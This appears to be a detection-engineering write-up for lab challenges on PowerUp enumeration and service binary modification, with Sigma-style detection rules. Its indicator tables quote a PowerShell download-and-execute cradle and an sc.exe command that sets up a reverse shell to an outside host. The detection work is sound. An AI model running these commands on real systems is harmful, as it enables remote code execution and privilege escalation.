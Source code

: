 ## Challenge 4

• Enumeration of privilege escalation vectors through PowerUp.ps1.

| Attack Technique | Indicators of Compromise |
| --- | --- |
| PowerUp Enumeration | Image: powershell.exe
Command Line: powershell "iex(new-object net.webclient).downloadstring('http://huntmeplz.com/PowerUp.ps1'); Invoke-AllChecks;" |

```yaml
title: PowerUp Enumeration
id: 0f06a3a5-6a09-413f-8743-e6cf35561294
status: experimental
description: Detecting powerup enumeration
author: void
date: 17/01/2023
logsource:
 category: process_creation
 product: windows
detection:
 selection:
  EventID: 1
  Image|endswith: '*powershell.exe'
  CommandLine|contains|all: 
  - 'PowerUp.ps1'
  - 'powershell '
  - 'Invoke-AllChecks'

 condition: selection
level: high
```

## Challenge 5

• Abused service modification privileges to achieve System privileges.

| Attack Technique | Indicators of Compromise |
| --- | --- |
| Service Binary Modification | Image: sc.exe
Command Line: sc.exe config SNMPTRAP binPath= "C:\Users\victim\AppData\Local\Temp\rev.exe huntmeplz.com 4443 -e cmd.exe" |

```yaml
title: Service Binary Modification
id: 0f06a3a5-6a09-413f-8743-e6cf35561295
status: experimental
description: Detecting service binary privesc
author: void
date: 17/01/2023
logsource:
 category: process_creation
 product: windows
detection:
 selection:
  EventID: 1
  Image|endswith: '*sc.exe'
  CommandLine|contains|all: 
  - ' binPath= '
  - ' -e '
  - ' config '
 condition: selection
level: high
```
